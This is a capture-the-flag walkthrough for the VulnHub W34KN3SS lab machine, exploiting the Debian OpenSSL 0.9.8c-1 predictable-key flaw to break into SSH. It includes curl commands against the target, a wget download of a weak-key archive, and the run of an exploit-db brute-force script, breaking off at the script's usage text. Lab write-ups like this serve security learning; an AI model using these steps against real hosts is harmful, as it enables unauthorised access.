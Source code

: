 
## TCP/22 - SSH - openssl 0.9.8c-1 Exploit
1. View `mykey.pub`
	```
	┌──(root💀kali)-[~/vulnHub/W34KN3SS]
	└─# curl -s http://weakness.jth/private/files/mykey.pub
	ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster
	```
	- Target Machine Hostname: `targetcluster`
	- Private Key Path: `/root/.ssh/id_rsa`
2. View `notes.txt`
	```
	┌──(root💀kali)-[~/vulnHub/W34KN3SS]
	└─# curl -s http://weakness.jth/private/files/notes.txt
	this key was generated by openssl 0.9.8c-1
	```
	- `openssl 0.9.8c-1`
3. Search exploits for `openssl 0.9.8c-1`

	|  #  | Exploit Title                                                                       | Path                  |
	| --- | ----------------------------------------------------------------------------------- | --------------------- |
	| 1   | OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force | linux/remote/5622.txt |
	| 2   | OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force | linux/remote/5632.rb  |
	| 3   | OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Forc | linux/remote/5720.py

4. `openssl 0.9.8c-1` is exploitable because there are only 65.536 possible ssh  keys generated.
5. Use `linux/remote/5720.py`
	1. Follow the instructions in `5720.py`
	2. Download `5622.tar.bz2`
		```
		┌──(root💀kali)-[~/vulnHub/W34KN3SS/192.168.236.9/exploit]
		└─# wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2 -q
		```
	3. Extract
		```
		┌──(root💀kali)-[~/vulnHub/W34KN3SS/192.168.236.9/exploit]
		└─# tar -xvf 5622.tar.bz2
		rsa/2048/2c39076a750679c89ed30581f3371a03-21786.pub
		rsa/2048/34602375d32e68ab98b48ab008a1d0f9-8985
		rsa/2048/b009a4aaa5deae5f11c66a26d0a42de6-11400.pub
		...
		```
	4. Execute python script
		```
		┌──(root💀kali)-[~/vulnHub/W34KN3SS/192.168.236.9/exploit]
		└─# python 5720.py 
		-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org
		./exploit.py <dir> <host> <user> [[port] [threads]]
			<dir>: Path to SSH privatekeys (ex. /home/john/keys) without final slash
			<host>: The victim host
			<user>: The user of the victim host
			[port]: The SSH port of the victim host (default 22)
			[threads]: Number of threads (default 4) Too big numer is bad
